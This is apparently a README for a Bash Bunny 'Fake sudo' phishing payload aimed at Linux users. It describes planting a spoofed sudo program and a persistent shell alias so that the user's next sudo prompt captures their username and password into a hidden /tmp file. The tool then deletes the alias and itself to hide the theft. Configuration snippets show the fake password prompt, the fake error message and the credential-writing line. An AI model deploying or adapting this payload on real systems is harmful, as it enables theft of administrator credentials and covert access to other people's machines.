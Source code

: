# Fake sudo

- Title:         Fake sudo
- Author:        TW-D
- Version:       1.0
- Target:        Linux
- Category:      Phishing

## Description

1) Copies the "sudo" command spoofing program to the user's home directory.
2) Defines a new persistent "sudo" alias with the file "~/.bash_aliases".
3) When the user "sudoer" executes the command "sudo" in a terminal, the spoofing program :
- __By default__ retrieves the username and password and writes them to "/tmp/.sudo_password".
- __But__ this behavior can be changed in line 21 of the "sudo-phishing.sh" file.
4) After sending, the spoofing program deletes the "sudo" alias. Then it deletes itself.

## Configuration

From "payload.txt" change the values of the following constant :
```bash

######## INITIALIZATION ########

readonly BB_LABEL="BashBunny"

```

From "sudo-phishing.sh" change the values of the following constants if necessary :
```bash

readonly INPUT_MESSAGE="[sudo] password for ${USER}: "
readonly MAXIMUM_ATTEMPTS=3
readonly ERROR_MESSAGE="sudo: ${MAXIMUM_ATTEMPTS} incorrect password attempts"

```

From "sudo-phishing.sh", change the payload if you wish :
```bash
##
# <YOUR-PAYLOAD>
##
/usr/bin/echo "${USER}:${sudo_password}" > /tmp/.sudo_password
##
# </YOUR-PAYLOAD>
##
```

